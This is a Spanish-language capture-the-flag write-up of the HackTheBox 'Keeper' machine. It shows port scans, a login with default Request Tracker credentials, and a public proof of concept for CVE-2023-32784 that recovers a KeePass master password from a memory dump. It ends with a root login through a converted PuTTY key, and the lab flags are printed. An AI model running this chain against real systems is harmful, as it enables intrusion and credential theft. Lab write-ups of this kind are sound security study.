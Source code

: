 # Keeper

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 30 de enero de 2025 21:29
IP: 10.10.11.227

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Sistema

```bash
whichSystem.py 10.10.11.227

	10.10.11.227 (ttl -> 63): Linux

```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 10.10.11.227 -oG targeted

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
sudo nmap -p22,80 -sCV 10.10.11.227 -oN targeted
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Identificación de vulnerabilidades**
    - 22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
    - 22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3

- Enumeracion web
    
    ![image.png](<imagenes/image 115.png>)
    
    ![image.png](<imagenes/image 116.png>)
    

Añadimos al /etc/host : tickets.keeper.htb

![image.png](<imagenes/image 117.png>)

Vemos que usa “Request Tracker”

Buscamos las credenciales por defecto : root/password

Nos logamos en el panel

![image.png](<imagenes/image 118.png>)

Vamos a la seccion Usuarios y vemos

Usuario: lnorgaard

![image.png](<imagenes/image 119.png>)

Probamos a acceder por SSH : Explotacion 1

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Explotación 1

```bash
ssh lnorgaard@ssh 10.10.11.227

The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ cat user.txt 
791774e6eca0481f1a79d0919f468b45
lnorgaard@keeper:~$ 

```

Descargamos el fichero RT30000.zip

```bash
# Maquina atacante

❯ scp lnorgaard@10.10.11.227:/home/lnorgaard/RT30000.zip ../content
❯ ls
 RT30000.zip
❯ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
❯ ls
 KeePassDumpFull.dmp   passcodes.kdbx   RT30000.zip

```

Vemos que es posible extraer la contraseña maestra de KeePassDumpFUll.dmp debido al CVE-2023-32784  

Buscamos un exploot

### Explotación 2

```bash
gitclone https://github.com/dawnl3ss/CVE-2023-32784.git
cd CVE-2023-32784
python3 poc.py KeePassDumpFull.dmp

●Mdgr●d med fl●de
```

Si buscamos el resultado en google aparece que es un postre de dinamarca:

***rødgrød med fløde***

Instalamos KeePass y abrimos el fichero con la contraseña

![image.png](<imagenes/image 120.png>)

![image.png](<imagenes/image 121.png>)

El formato es un formato de ppk (Putty Private Key)

Convertimos el formato a id_rsa

```bash
puttygen private.ppk -O private-openssh -o id_rsa
chmod 600 id_rsa
 
```

### Explotación posterior

<aside>
💡 Accedemos con las credenciales encontradas

</aside>

### Escalada de privilegios

```bash
 ssh -i id_rsa root@10.10.11.227
 root@keeper:~# ls
 root@keeper:~# cat root.txt 
ce5c3b996b4b28e54bce317a959be019
root@keeper:~# 
```

## Conclusión

<aside>
💡 Maquina facil que me ha dado trabajo encontrar que era formato ppk y convertirlo en id_rsa

</aside>